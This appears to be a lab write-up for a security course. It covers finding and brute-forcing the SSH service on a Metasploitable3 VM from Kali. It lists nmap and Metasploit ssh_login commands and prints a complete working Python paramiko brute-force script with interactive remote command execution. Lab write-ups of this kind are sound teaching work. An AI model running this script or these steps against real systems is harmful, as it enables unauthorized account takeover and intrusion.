



# Phase 1: Setup and Compromise the Service

## Overview

In Phase 1, we set up two virtual environments:  
- **Victim Environment:** Metasploitable3 VM running a vulnerable SSH service.  
- **Attacker Environment:** Kali Linux VM with Metasploit and Python installed.

We demonstrate two methods to compromise the SSH service:  
- **Task 1.1:** Using Metasploit’s built-in SSH brute force module.  
- **Task 1.2:** Using a custom Python brute force script.

---

## Service Discovery

Before launching any attacks, we performed a service discovery scan using Nmap to identify open ports and running services on the target (Metasploitable3) machine.

```bash
nmap -sV 10.0.2.15
```

This scan revealed that the SSH service is running and accessible, making it a suitable target for our attacks.


---

## Task 1.1: Compromising SSH with Metasploit

**Steps:**

1. Start Metasploit Framework:
   ```bash
   sudo msfconsole
   ```

2. Select the SSH Login Scanner Module:
   ```
   use auxiliary/scanner/ssh/ssh_login
   ```

3. Set the Target IP Address:
   ```
   set rhosts 10.0.2.15
   ```

4. Stop After First Successful Login:
   ```
   set stop_on_success true
   ```

5. Enable Verbose Output:
   ```
   set VERBOSE true
   ```

6. Provide the User/Password File:
   ```
   set userpass_file <path to your userpass.txt>
   ```

7. Run the Attack:
   ```
   run
   ```

8. Open a Session After Success:
   ```
   sessions -i 1
   ```

9. Verify Access:
   ```
   whoami
   ```
   You should see the output:
   ```
   vagrant
   ```

**Screenshots:** 




---

## Task 1.2: Compromising SSH with a Custom Script

**Steps:**

1. Run the Custom Python Script:  
   Use the provided script (`ssh_bruteforce.py`) to perform the brute force attack.

   ```bash
   python3 ssh_bruteforce.py
   ```

   ```python
   import paramiko
   import time
   import sys
   from datetime import datetime
   
   def execute_command(ssh, command):
       """Execute a command on the remote system and return the output"""
       try:
           stdin, stdout, stderr = ssh.exec_command(command)
           output = stdout.read().decode().strip()
           error = stderr.read().decode().strip()
   
           if error:
               print(f"[!] Error executing command: {error}")
               return None
           return output
       except Exception as e:
           print(f"[!] Error executing command: {str(e)}")
           return None
   
   def ssh_bruteforce(hostname, credentials_file):
       # Banner
       print("=" * 50)
       print("SSH Brute Force Script - For Educational Purposes Only")
       print("Target: " + hostname)
       print("Started at: " + str(datetime.now()))
       print("=" * 50)
   
       # Read credentials from file
       try:
           with open(credentials_file, 'r') as f:
               credentials = [line.strip().split() for line in f]
       except FileNotFoundError:
           print("[!] Error: Credentials file not found!")
           sys.exit(1)
       except Exception as e:
           print(f"[!] Error reading credentials file: {str(e)}")
           sys.exit(1)
   
       # Initialize SSH client
       ssh = paramiko.SSHClient()
       ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
   
       found_credentials = []
       attempts = 0
   
       print("\n[*] Starting brute force attack...")
       start_time = time.time()
   
       # Try each credential pair
       for cred in credentials:
           if len(cred) != 2:
               print(f"\n[!] Warning: Skipping invalid line in credentials file")
               continue
   
           username, password = cred
           attempts += 1
   
           try:
               print(f"\r[*] Attempt {attempts}: Testing {username}:{password}", end='')
   
               # Try to connect
               ssh.connect(hostname, username=username, password=password, timeout=5)
   
               # If successful, store the credentials
               print(f"\n[+] Success! Valid credentials found:")
               print(f"    Username: {username}")
               print(f"    Password: {password}")
   
               # Store the successful credentials
               found_credentials.append((username, password))
   
               # Ask if user wants to execute more commands
               while True:
                   choice = input("\n[?] Do you want to execute a command? (y/n): ").lower()
                   if choice == 'y':
                       command = input("[+] Enter command to execute: ")
                       output = execute_command(ssh, command)
                       if output:
                           print(f"\n[+] Command output:\n{output}")
                   elif choice == 'n':
                       break
   
               # Close the connection
               ssh.close()
   
           except paramiko.AuthenticationException:
               # Failed authentication
               ssh.close()
               continue
           except paramiko.SSHException:
               print("\n[!] Error: SSH exception occurred. Waiting 60 seconds...")
               time.sleep(60)
               continue
           except Exception as e:
               print(f"\n[!] Error: {str(e)}")
               continue
   
       # Print summary
       end_time = time.time()
       duration = end_time - start_time
   
       print("\n" + "=" * 50)
       print("Attack Summary:")
       print(f"Total attempts: {attempts}")
       print(f"Duration: {duration:.2f} seconds")
       print(f"Valid credentials found: {len(found_credentials)}")
   
       if found_credentials:
           print("\nValid Credentials:")
           for username, password in found_credentials:
               print(f"Username: {username} | Password: {password}")
   
       print("=" * 50)
   
   def connect_with_credentials(hostname, username, password):
       """Function to directly connect with known credentials"""
       print(f"\n[*] Attempting to connect to {hostname} with {username}")
   
       ssh = paramiko.SSHClient()
       ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
   
       try:
           ssh.connect(hostname, username=username, password=password, timeout=5)
           print("[+] Successfully connected!")
   
   
           # Interactive command execution
           while True:
               choice = input("\n[?] Do you want to execute a command? (y/n): ").lower()
               if choice == 'y':
                   command = input("[+] Enter command to execute: ")
                   output = execute_command(ssh, command)
                   if output:
                       print(f"\n[+] Command output:\n{output}")
               elif choice == 'n':
                   break
   
           ssh.close()
           print("\n[*] Connection closed.")
   
       except Exception as e:
           print(f"[!] Error connecting: {str(e)}")
   
   if __name__ == "__main__":
       # Configuration
       TARGET_HOST = "10.0.2.15"  # Replace with Metasploitable3 IP
       CREDENTIALS_FILE = "/home/kali/Documents/userpass.txt"  # File containing username password pairs
   
       # Ask user for mode
       print("1. Brute force attack")
       print("2. Connect with known credentials")
       mode = input("Select mode (1/2): ")
   
       if mode == "1":
           ssh_bruteforce(TARGET_HOST, CREDENTIALS_FILE)
       elif mode == "2":
           username = input("Enter username: ")
           password = input("Enter password: ")
           connect_with_credentials(TARGET_HOST, username, password)
       else:
           print("[!] Invalid mode selected")
   ```

**Screenshot:**  


---

## Summary

- We used Nmap to discover the SSH service running on the target.
- Both Metasploit and the custom script successfully compromised the SSH service on Metasploitable3.
- The valid credentials were discovered, and remote command execution was demonstrated.
- These steps provide a foundation for further analysis and defense in the next phases.

---
